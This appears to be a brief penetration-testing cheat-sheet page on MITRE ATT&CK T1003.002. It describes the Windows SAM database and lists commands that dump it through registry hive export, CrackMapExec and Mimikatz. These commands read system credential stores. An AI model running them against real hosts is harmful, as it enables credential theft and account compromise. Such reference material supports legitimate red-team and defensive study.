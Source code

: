 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.002
---
```


# Security Account Manager (SAM)

### Description

The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command.

### Dumping the SAM

#### Manually Extracting&#x20;

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
```

#### CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password --sam
```

#### Mimikatz

```bash
mimikatz lsadump::sam
```
